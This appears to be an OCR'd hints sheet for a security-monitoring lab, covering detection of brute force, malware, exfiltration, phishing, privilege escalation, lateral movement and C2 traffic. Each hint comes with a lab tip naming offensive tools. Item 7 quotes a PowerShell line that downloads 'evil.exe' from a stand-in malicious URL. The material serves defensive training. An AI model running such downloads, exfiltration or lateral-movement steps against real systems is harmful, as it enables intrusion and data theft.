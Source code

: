 #HINTS
1. Brute Force Detection
Hint:
Look into authentication logs like /var/log/auth.log or Windows Event ID 4625. Focus on patterns where
multiple failed attempts are made from the same IP in a short time.
Tip: Think of Hydra or Burp Suite brute force modules.
2. Malware Detection
Hint:
Use VirusTotal or any.run to analyze suspicious files. In your SIEM, observe unexpected processes, registry
changes, or connections to unknown IPs.
Tip: Try simulating a malware dropper script with curl or Invoke-WebRequest and execute in a lab.
3. Data Exfiltration Detection
Hint:
Watch for large outbound traffic on non-standard ports. Analyze network logs, and use Wireshark to capture
exfiltration attempts.
Tip: Use netcat to simulate file transfer over HTTP, FTP, or DNS
4. Suspicious Network Activity
Hint:
Use tools like Wireshark or tcpdump to monitor abnormal traffic patterns. Look for port scanning, repeated
connection attempts, or odd DNS queries.
Tip: Try nmap -sS and watch how it shows up in logs.
5. Phishing Email Detection
Hint:
Look for email headers, links to shortened or weird domains, and attachments with .exe, .js, or
.vbs extensions. Use email gateways or SIEM to flag these.
Tip: Use the open-source tool “GoPhish” to simulate phishing in your lab.
6. Unauthorized Access Attempt
Hint:
Audit logs are your best friend. Search for login attempts outside office hours, use of disabled accounts, or
access from unusual geolocations.
Tip: Use failed logon Event ID 4625 and success 4624 to compare patterns.
7. Suspicious File Download
Hint:
Use PowerShell logging (ModuleLogging, ScriptBlockLogging) to catch scripts like:
Invoke-WebRequest -Uri "http://malicious-url" -OutFile "evil.exe"
Tip: Enable Sysmon to detect ProcessCreate + network connections.
8. Privilege Escalation Attempt
Hint:
Check for creation of new admin users, or modifications to registry keys, services, or token
impersonation attempts.
Tip: Tools like whoami /priv, accesschk, and winPEAS reveal escalation paths.
9. Lateral Movement Detection
Hint:
Monitor SMB, WMI, RDP, or PsExec traffic between internal systems. Use Sysmon Event ID
3 and Windows Event ID 4624 to trace logons.
Tip: Try moving laterally using CrackMapExec or wmiexec from Impacket.
10. Command and Control (C2) Traffic Detection
Hint:
Detect beaconing patterns, especially regular intervals of outbound traffic. Look into PowerShell
Empire, Cobalt Strike, or DNS-based C2.
Tip: Set up a mock listener using Netcat or Empire and track outbound packets.